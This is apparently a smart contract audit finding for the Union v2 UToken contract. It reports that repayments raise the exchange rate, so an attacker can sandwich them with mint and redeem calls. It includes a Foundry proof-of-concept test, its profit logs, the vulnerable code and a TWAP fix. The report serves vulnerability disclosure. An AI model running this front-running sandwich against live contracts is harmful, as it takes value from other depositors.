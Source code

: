 ozoooneth

medium

# The `exchangeRateStored()` function allows front-running on repayments

## Summary

The `exchangeRateStored()` function allows to perform front-running attacks when a repayment is being executed.  

## Vulnerability Detail

Since `_repayBorrowFresh()` increases `totalRedeemable` value which affects in the final exchange rate calculation used in functions such as `mint()` and `redeem()`, an attacker could perform a front-run to any repayment by minting `UTokens` beforehand, and redeem these tokens after the front-run repayment. In this situation, the attacker would always be obtaining profits since `totalRedeemable` value is increased after every repayment.

### Proof of Concept

```solidity
    function increaseTotalSupply(uint256 _amount) private {
        daiMock.mint(address(this), _amount);
        daiMock.approve(address(uToken), _amount);
        uToken.mint(_amount);
    }

    function testMintRedeemSandwich() public {
        increaseTotalSupply(50 ether);

        vm.prank(ALICE);
        uToken.borrow(ALICE, 50 ether);
        uint256 borrowed = uToken.borrowBalanceView(ALICE);

        vm.roll(block.number + 500);

        vm.startPrank(BOB);
        daiMock.approve(address(uToken), 100 ether);
        uToken.mint(100 ether);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        uint256 currExchangeRate = uToken.exchangeRateStored();
        console.log("[1] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(ALICE);
        uint256 interest = uToken.calculatingInterest(ALICE);
        uint256 repayAmount = borrowed + interest;

        daiMock.approve(address(uToken), repayAmount);
        uToken.repayBorrow(ALICE, repayAmount);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] ALICE balance:", uToken.balanceOf(ALICE));
        console.log("[DAI]    ALICE balance:", daiMock.balanceOf(ALICE));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[2] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(BOB);
        uToken.redeem(uToken.balanceOf(BOB), 0);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[3] Exchange rate:", currExchangeRate);
    }
```

### Result

```bash
[PASS] testMintRedeemSandwich() (gas: 560119)
Logs:

  [UToken] Total supply: 150000000000000000000
  [UToken] BOB balance: 100000000000000000000
  [DAI]    BOB balance: 0
  [1] Exchange rate: 1000000000000000000

  [UToken] Total supply: 150000000000000000000
  [UToken] ALICE balance: 0
  [DAI]    ALICE balance: 99474750000000000000
  [2] Exchange rate: 1000084166666666666

  [UToken] Total supply: 50000000000000000000
  [UToken] BOB balance: 0
  [DAI]    BOB balance: 100008416666666666600
  [3] Exchange rate: 1000084166666666668
```

## Impact

An attacker could always get profits from front-running repayments by taking advantage of `exchangeRateStored()` calculation before a repayment is made.

## Code Snippet

[exchangeRateStored()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L467-L470)

```solidity
function exchangeRateStored() public view returns (uint256) {
    uint256 totalSupply_ = totalSupply();
    return totalSupply_ == 0 ? initialExchangeRateMantissa : (totalRedeemable * WAD) / totalSupply_;
}
```

[_repayBorrowFresh()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L657)

```solidity
function _repayBorrowFresh(address payer, address borrower, uint256 amount, uint256 interest) internal {
    if (getBlockNumber() != accrualBlockNumber) revert AccrueBlockParity();
    uint256 borrowedAmount = borrowBalanceStoredInternal(borrower);
    uint256 repayAmount = amount > borrowedAmount ? borrowedAmount : amount;
    if (repayAmount == 0) revert AmountZero();

    uint256 toReserveAmount;
    uint256 toRedeemableAmount;

    if (repayAmount >= interest) {
        // If the repayment amount is greater than the interest (min payment)
        bool isOverdue = checkIsOverdue(borrower);

        // Interest is split between the reserves and the uToken minters based on
        // the reserveFactorMantissa When set to WAD all the interest is paid to teh reserves.
        // any interest that isn't sent to the reserves is added to the redeemable amount
        // and can be redeemed by uToken minters.
        toReserveAmount = (interest * reserveFactorMantissa) / WAD;
        toRedeemableAmount = interest - toReserveAmount;

        // Update the total borrows to reduce by the amount of principal that has
        // been paid off
        totalBorrows -= (repayAmount - interest);

        // Update the account borrows to reflect the repayment
        accountBorrows[borrower].principal = borrowedAmount - repayAmount;
        accountBorrows[borrower].interest = 0;

        // Call update locked on the userManager to lock this borrowers stakers. This function
        // will revert if the account does not have enough vouchers to cover the repay amount. ie
        // the borrower is trying to repay more than is locked (owed)
        IUserManager(userManager).updateLocked(borrower, (repayAmount - interest).toUint96(), false);

        if (isOverdue) {
            // For borrowers that are paying back overdue balances we need to update their
            // frozen balance and the global total frozen balance on the UserManager
            IUserManager(userManager).onRepayBorrow(borrower);
        }

        if (getBorrowed(borrower) == 0) {
            // If the principal is now 0 we can reset the last repaid block to 0.
            // which indicates that the borrower has no outstanding loans.
            accountBorrows[borrower].lastRepay = 0;
        } else {
            // Save the current block number as last repaid
            accountBorrows[borrower].lastRepay = getBlockNumber();
        }
    } else {
        // For repayments that don't pay off the minimum we just need to adjust the
        // global balances and reduce the amount of interest accrued for the borrower
        toReserveAmount = (repayAmount * reserveFactorMantissa) / WAD;
        toRedeemableAmount = repayAmount - toReserveAmount;
        accountBorrows[borrower].interest = interest - repayAmount;
    }

    totalReserves += toReserveAmount;
    totalRedeemable += toRedeemableAmount;

    accountBorrows[borrower].interestIndex = borrowIndex;

    // Transfer underlying token that have been repaid and then deposit
    // then in the asset manager so they can be distributed between the
    // underlying money markets
    IERC20Upgradeable(underlying).safeTransferFrom(payer, address(this), repayAmount);
    _depositToAssetManager(repayAmount);

    emit LogRepay(payer, borrower, repayAmount);
}
```

[Usage in `mint()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L714)

[Usage in `redeem()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L742)

## Tool used

Manual Review

## Recommendation

An approach could be implementing TWAP in order to make front-running unprofitable in this situation.